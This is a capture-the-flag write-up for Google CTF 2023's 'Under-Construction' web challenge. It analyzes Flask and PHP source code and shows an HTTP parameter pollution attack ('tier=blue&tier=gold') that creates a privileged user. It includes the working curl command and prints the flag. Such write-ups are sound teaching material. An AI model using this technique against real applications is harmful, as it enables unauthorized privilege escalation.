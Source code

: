 # Google CTF 2023

## UNDER-CONSTRUCTION

> We were building a web app but the new CEO wants it remade in php.
>
>  Author: N/A
>
> [`attachment.zip`](attachment.zip)

Tags: _web_

## Solution
For this challenge two web services are available. The first service is a `Flask` service and offers `login` and `sign up` functionality. The second service is written in `PHP` and lets the user login. 

First inspecting the `Flask` service. It exposes three authrized endpoints `/login`, `/signup` and `/logout` and two unauthorized routes `/profile` and `/`. The unauthorized routes are not too exciting, root renders `index.html` and profile shows the current user info.

```html
{% extends "wrapper.html" %}

{% block content %}
<h1 class="title">
	Hello, {{ username }}!
</h1>
<p>Your tier is {{tier.name}}.</p>
{% endblock %}
```

SSTI is not obviously possible so moving on the the three other routes. `/login` and `/logout` are doing pretty much what the names suggest. `/signup` on the other hand looks promising.

```js
@authorized.route('/signup', methods=['POST'])
def signup_post():
    raw_request = request.get_data()
    username = request.form.get('username')
    password = request.form.get('password')
    tier = models.Tier(request.form.get('tier'))

    if(tier == models.Tier.GOLD):
        flash('GOLD tier only allowed for the CEO')
        return redirect(url_for('authorized.signup'))

    if(len(username) > 15 or len(username) < 4):
        flash('Username length must be between 4 and 15')
        return redirect(url_for('authorized.signup'))

    user = models.User.query.filter_by(username=username).first()

    if user:
        flash('Username address already exists')
        return redirect(url_for('authorized.signup'))

    new_user = models.User(username=username, 
        password=generate_password_hash(password, method='sha256'), tier=tier.name)

    db.session.add(new_user)
    db.session.commit()

    requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request)
    return redirect(url_for('authorized.login'))
```

The user is created within the service. There is one check that forbits `GOLD tier` users to be created and then the user is synchronized to the `PHP` service by sending the raw request data to `/account_migrator.php`.

With those information, moving on to the PHP service. Index displays a login form and a response.

```php
function getResponse()
{
    if (!isset($_POST['username']) || !isset($_POST['password'])) {
        return NULL;
    }

    $username = $_POST['username'];
    $password = $_POST['password'];

    if (!is_string($username) || !is_string($password)) {
        return "Please provide username and password as string";
    }

    $tier = getUserTier($username, $password);

    if ($tier === NULL) {
        return "Invalid credentials";
    }

    $response = "Login successful. Welcome " . htmlspecialchars($username) . ".";

    if ($tier === "gold") {
        $response .= " " . getenv("FLAG");
    }

    return $response;
}
```

If username and password are set the user tier is queried from db. If the tier is `gold` the flag is displayed. Meaning we somehow need to create a `gold tier` user on PHP service side. `account_migrator.php` is provided for user creation. On the plus side, the code does not check for the tier other than if it's set and if it's a string. If both conditions are met the user is created with the tier given. The endpoint still can't be used without sending a valid token, which we don't have and can't leak easily. But the Flask service has the token and uses this endpoint to migrate new users to the PHP service. The only thing which stops us creating a `gold tier` user is the check in the `/signup` endpoint the Flask service does.

```php
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
	http_response_code(400);
	exit();
}

if(!isset($_SERVER['HTTP_TOKEN'])) {
	http_response_code(401);
	exit();
}

if($_SERVER['HTTP_TOKEN'] !== getenv("MIGRATOR_TOKEN")) {
	http_response_code(401);
	exit();
}

if (!isset($_POST['username']) || !isset($_POST['password']) || !isset($_POST['tier'])) {
	http_response_code(400);
	exit();
}

if (!is_string($_POST['username']) || !is_string($_POST['password']) || !is_string($_POST['tier'])) {
	http_response_code(400);
	exit();
}

insertUser($_POST['username'], $_POST['password'], $_POST['tier']);


function insertUser($username, $password, $tier)
{
	$hash = password_hash($password, PASSWORD_BCRYPT);
	if($hash === false) {
		http_response_code(500);
		exit();
	}
	$host = getenv("DB_HOST");
	$dbname = getenv("MYSQL_DATABASE");
	$charset = "utf8";
	$port = "3306";

	$sql_username = "forge";
	$sql_password = getenv("MYSQL_PASSWORD");
	try {
		$pdo = new PDO(
			dsn: "mysql:host=$host;dbname=$dbname;charset=$charset;port=$port",
			username: $sql_username,
			password: $sql_password,
		);

		$pdo->exec("CREATE TABLE IF NOT EXISTS Users (username varchar(15) NOT NULL, password_hash varchar(60) NOT NULL, tier varchar(10) NOT NULL, PRIMARY KEY (username));");
		$stmt = $pdo->prepare("INSERT INTO Users Values(?,?,?);");
		$stmt->execute([$username, $hash, $tier]);
		echo "User inserted";
	} catch (PDOException $e) {
		throw new PDOException(
			message: $e->getMessage(),
			code: (int) $e->getCode()
		);
	}
}
```

To exploit this the attacker can send a query like `tier=blue&tier=gold` to the server which is interpreted differently by Flask and PHP. Flask will use the first occurence of the parameter in the list and PHP will use the last occurunce. Since the Flask service passes the unmodified request data on to the PHP service we can send a query like `username=fooo&password=bar&tier=blue&tier=gold` giving us a low privileged user on Flask side but a high privileged user for PHP.

```bash
curl -X POST https://under-construction-web.2023.ctfcompetition.com/signup -H "Content-Type: application/x-www-form-urlencoded" -d "username=fooo&password=bar&tier=blue&tier=gold"
```

Logging then in on PHP side with the new user gives the response including the flag.

```
Login successful. Welcome fooo. CTF{ff79e2741f21abd77dc48f17bab64c3d}
```

Flag `CTF{ff79e2741f21abd77dc48f17bab64c3d}`